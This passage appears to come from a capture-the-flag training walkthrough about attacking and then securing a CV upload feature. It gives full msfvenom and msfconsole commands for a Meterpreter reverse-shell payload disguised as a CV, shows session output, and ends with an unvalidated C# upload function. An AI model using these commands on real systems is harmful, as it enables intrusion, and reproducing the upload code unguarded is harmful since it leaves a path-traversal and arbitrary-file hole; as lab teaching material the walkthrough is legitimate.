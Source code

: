 # Shell from Santa

Let's try to target one of Santa's elves that would be reviewing the uploaded CVs. In most cases, we would have to be quite creative with the malware that we upload, especially since this is for an application to a security role! This will require us to create a CV with a malicious macro embedded. However, since we are on Santa's red team and this is a security assessment, we only need to show proof of concept. Let's use Metasploit to generate a malicious CV:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe
```

You can then also use the following to create the associated listener in the msfconsole:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"
```

Once we have our CV, we can upload the file again. Once uploaded, give it a few minutes, and one of those elves should be reviewing our CV:

```
[*] Started reverse handler on 10.50.1.120:4444 [*] Starting the payload handler... [*] Sending stage (770048 bytes) to 10.10.1.20 [*] Meterpreter session 1 opened (10.50.1.120:4444 -> 10.10.1.20:1138) at 2022-10-22 19:03:43 -0500 meterpreter >
```

This is sufficient for a proof of concept for Elf McSkidy to take to Santa and request that additional security controls must be implemented on the application! Using your shell, go read the flag from the specific elf's home directory.

# Properly Securing File Uploads

To adequately secure the file upload feature, we will need to implement layers of defence. In this task, we will use a C# file upload as the case study. C# is a popular language used to create both Windows application and web applications at large organisations. Let's look at our base file upload function first:

```
public IActionResult OnPostUpload(FileUpload fileUpload)
    {   
        var fullPath = "D:\CVUploads\"
        var formFile = fileUpload.FormFile;
        var filePath = Path.Combine(fullPath, formFile.FileName);

        using (var stream = System.IO.File.Create(filePath))
            {
                formFile.CopyToAsync(stream);
            }
    }
```
